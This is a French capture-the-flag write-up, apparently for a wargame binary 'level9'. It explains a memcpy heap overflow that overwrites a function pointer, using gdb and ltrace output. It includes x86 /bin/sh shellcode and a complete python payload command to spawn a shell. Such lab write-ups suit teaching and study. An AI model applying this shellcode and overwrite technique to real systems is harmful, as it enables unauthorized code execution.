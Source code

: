 # `memcpy` Exploitation

En décompilant l'exécutable, on remarque qu'il fait appel à le fonction `memcpy` et qu'il fait appel à l'adresse d'une fonction enregistrée dans la mémoire. Nous avons l'intuitions que nous allons devoir utiliser cet appel fonction pour faire appel à une fonction de notre choix.

Avec `gdb`, on remarque que l'appel à la fonction stockée en mémoire est en fait une instruction `call` à l'adresse pointée par `edx`.
```
> gdb --args level9 "AAAA"
[...]
> (gdb) disas main
[...]
   0x08048693 <+159>:	call   *%edx
[...]
```
On remarque que `edx` est assigné juste après l'appel à la fonction `setAnnotation`.
```
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
```
On constate ici in `mov` de `esp+0x10` dans `eax`. Puis un `move` de `eax` dans `edx`. Cela revient à dire qu'on `move` `esp+0x10` dans `edx`. Voyons où pointe `esp+0x10` et imprimons le contenu de cette adresse pour le visualiser plus tard dans la mémoire.
```
> (gdb) x $esp+0x10
0xbffff6a0:	0x0804a078
> (gdb) x 0x0804a078
0x804a078:	0x0804a00c
```
`esp+0x10` pointe donc sur à l'adresse `0x0804a078`.

> Il est important de noter que `edx` pointe désormais sur une adresse, qui contient l'adresse de la fonction. Cette information est importante à retenir pour la suite.

Mettons cette information de côté, et observons à présent notre `memcpy`. Déterminons tout d'abord l'endroit de la copie en mémoire. Pour cela, on peut, comment l'exercice précédent, utiliser `ltrace`.
```
> ltrace ./level9 "AAAA"
[...]
memcpy(0x0804a00c, "AAAA", 4)                                             = 0x0804a00c
[...]
```
`memcpy` copie donc à l'adresse `0x0804a00c`.

On remarque que l'adresse pointée par `esp+0x10` et l'adresse de copie de `memcpy` semblent être assez proches. On devrait donc pouvoir utiliser l'appel à le fonction `memcpy` pour écraser l'adresse pointée par `esp+0x10` par une adresse que nous définirons. Vérifions le en le visualisant. On `break` à l'instruction suivant l'appel à `memcpy`.
```
> (gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   %ebp
   0x0804870f <+1>:	mov    %esp,%ebp
   0x08048711 <+3>:	sub    $0x18,%esp
   0x08048714 <+6>:	mov    0xc(%ebp),%eax
   0x08048717 <+9>:	mov    %eax,(%esp)
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    0x8(%ebp),%edx
   0x08048722 <+20>:	add    $0x4,%edx
   0x08048725 <+23>:	mov    %eax,0x8(%esp)
   0x08048729 <+27>:	mov    0xc(%ebp),%eax
   0x0804872c <+30>:	mov    %eax,0x4(%esp)
   0x08048730 <+34>:	mov    %edx,(%esp)
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave  
   0x08048739 <+43>:	ret    
End of assembler dump.
> (gdb) b *0x08048738
Breakpoint 1 at 0x8048738
> (gdb) r
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x08048738 in N::setAnnotation(char*) ()
> (gdb) x/30wx 0x0804a00c
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
                ^
                AAAA
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                esp+0x10
0x804a07c:	0x00000000	0x00000000
```
Nos hypothèses sont confirmées. Le décalage entre les deux adresses semble assez grand pour injecter un `shell code`. Nous utiliserons celui-ci :
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```
Rappelons-nous, l'adresse à écraser doit pointer sur une adresse contenant l'adresse du début de notre `shell code`. C'est un point important car on ne peut pas effectuer un `jump` directement sur notre `shell code`. Voici donc la façon dont nous allons remplir notre `buffer` :
```
[adresse_du_shell_code] + [shell_code] + [NOP] + [adresse_pointeur_shell_code]
^                         ^                      ^
4 octets                  45 octets              4 octets
```
L'`adresse_pointeur_shell_code` pointe en fait sur l'adresse de `adresse_du_shell_code`.

Pour connaitre le nombre d'instructions `NOP` à insérer, il nous faut connaitre au préalable le décalage entre l'adresse de copie de `memcpy` et `esp+0x10`.
```
offset = esp+0x10 - adresse_copie_memcpy + 0x04
       = 0x804A078 - 0x804a00c + 0x04
       = 70
       = 112 (base 10)
```
```
NOP = 112 - 4 - 45 - 4
    = 59
```
Nous aurons donc besoin d'insérer `59` instructions `NOP`.

Il est facile ensuite de déterminer `adresse_du_shell_code` et `adresse_pointeur_shell_code` en visualisant la mémoire. Reprenons notre visualisation mémoire avec la copie de nos caractères `AAAA` :
```
0x804a00c:	0x41414141	0x00000000	0x00000000	0x00000000
                ^           ^
                adresse     shell code
                shell code
0x804a01c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a02c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a03c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a04c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a05c:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a06c:	0x00000000	0x00000005	0x00000071	0x08048848
                                                ^
                                                adresse pointeur
                                                shell code
0x804a07c:	0x00000000	0x00000000
```
Autrement dit :
```
adresse_shell_code = adresse_copie_memcpy + 0x04
                   = 0x804a00c + 0x04
                   = 0x804A010
```
```
adresse_pointeur_shell_code = adresse_copie_memcpy
                            = 0x804a00c
```
Nous pouvons donc créer notre commande que nous fournirons en argument du programme.
```
python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'
```
```
./level9 `python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90"*59 + "\x0c\xa0\x04\x08"'`
```
